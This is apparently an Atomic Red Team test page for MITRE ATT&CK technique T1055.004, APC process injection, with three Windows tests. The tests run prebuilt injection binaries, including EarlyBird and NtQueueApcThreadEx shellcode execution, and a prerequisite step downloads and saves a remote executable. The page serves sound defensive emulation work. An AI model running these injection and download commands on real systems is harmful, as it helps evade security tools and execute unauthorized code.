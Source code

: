 # T1055.004 - Process Injection: Asynchronous Procedure Call
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/004)
<blockquote>

Adversaries may inject malicious code into processes via the asynchronous procedure call (APC) queue in order to evade process-based defenses as well as possibly elevate privileges. APC injection is a method of executing arbitrary code in the address space of a separate live process. 

APC injection is commonly performed by attaching malicious code to the APC Queue (Citation: Microsoft APC) of a process's thread. Queued APC functions are executed when the thread enters an alterable state.(Citation: Microsoft APC) A handle to an existing victim process is first created with native Windows API calls such as <code>OpenThread</code>. At this point <code>QueueUserAPC</code> can be used to invoke a function (such as <code>LoadLibrayA</code> pointing to a malicious DLL). 

A variation of APC injection, dubbed "Early Bird injection", involves creating a suspended process in which malicious code can be written and executed before the process' entry point (and potentially subsequent anti-malware hooks) via an APC. (Citation: CyberBit Early Bird Apr 2018) AtomBombing (Citation: ENSIL AtomBombing Oct 2016) is another variation that utilizes APCs to invoke malicious code previously written to the global atom table.(Citation: Microsoft Atom Table)

Running code in the context of another process may allow access to the process's memory, system/network resources, and possibly elevated privileges. Execution via APC injection may also evade detection from security products since the execution is masked under a legitimate process. 

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Injection via C#](#atomic-test-1---process-injection-via-c)

- [Atomic Test #2 - EarlyBird APC Queue Injection in Go](#atomic-test-2---earlybird-apc-queue-injection-in-go)

- [Atomic Test #3 - Remote Process Injection with Go using NtQueueApcThreadEx WinAPI](#atomic-test-3---remote-process-injection-with-go-using-ntqueueapcthreadex-winapi)


<br/>

## Atomic Test #1 - Process Injection via C#
Process Injection using C#
reference: https://github.com/pwndizzle/c-sharp-memory-injection
Excercises Five Techniques
1. Process injection
2. ApcInjectionAnyProcess
3. ApcInjectionNewProcess
4. IatInjection
5. ThreadHijack
Upon successful execution, cmd.exe will execute T1055.exe, which exercises 5 techniques. Output will be via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** 611b39b7-e243-4c81-87a4-7145a90358b1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| exe_binary | Output Binary | path | PathToAtomicsFolder&#92;T1055.004&#92;bin&#92;T1055.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{exe_binary}"
```




#### Dependencies:  Run with `powershell`!
##### Description: #{exe_binary} must be exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{exe_binary}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{exe_binary}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1055.004/bin/T1055.exe" -OutFile "#{exe_binary}"
```




<br/>
<br/>

## Atomic Test #2 - EarlyBird APC Queue Injection in Go
Creates a process in a suspended state and calls QueueUserAPC WinAPI to add a UserAPC to the child process that points to allocated shellcode. 
ResumeThread is called which then calls NtTestAlert to execute the created UserAPC which then executes the shellcode.
This technique allows for the early execution of shellcode and potentially before AV/EDR can hook functions to support detection.
- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#createprocesswithpipe)
- References: 
  - https://www.bleepingcomputer.com/news/security/early-bird-code-injection-technique-helps-malware-stay-undetected/
  - https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection

**Supported Platforms:** Windows


**auto_generated_guid:** 73785dd2-323b-4205-ab16-bb6f06677e14





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| spawn_process_path | Path of the binary to spawn | string | C:&#92;Windows&#92;System32&#92;werfault.exe|
| spawn_process_name | Name of the process to spawn | string | werfault|


#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1055.004\bin\x64\EarlyBird.exe -program "#{spawn_process_path}" -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
Stop-Process -Name "#{spawn_process_name}" -ErrorAction SilentlyContinue
```





<br/>
<br/>

## Atomic Test #3 - Remote Process Injection with Go using NtQueueApcThreadEx WinAPI
Uses the undocumented NtQueueAPCThreadEx WinAPI to create a "Special User APC" in the current thread of the current process to execute shellcode. 
Since the shellcode is loaded and executed in the current process it is considered local shellcode execution.

Steps taken with this technique
1. Allocate memory for the shellcode with VirtualAlloc setting the page permissions to Read/Write
2. Use the RtlCopyMemory macro to copy the shellcode to the allocated memory space
3. Change the memory page permissions to Execute/Read with VirtualProtect
4. Get a handle to the current thread
5. Execute the shellcode in the current thread by creating a Special User APC through the NtQueueApcThreadEx function

- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode/tree/master#rtlcreateuserthread)
- References:
  - https://repnz.github.io/posts/apc/user-apc/
  - https://docs.rs/ntapi/0.3.1/ntapi/ntpsapi/fn.NtQueueApcThreadEx.html
  - https://0x00sec.org/t/process-injection-apc-injection/24608
  - https://twitter.com/aionescu/status/992264290924032005
  - http://www.opening-windows.com/techart_windows_vista_apc_internals2.htm#_Toc229652505

**Supported Platforms:** Windows


**auto_generated_guid:** 4cc571b1-f450-414a-850f-879baf36aa06






#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1055.004\bin\x64\NtQueueApcThreadEx.exe -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
```





<br/>
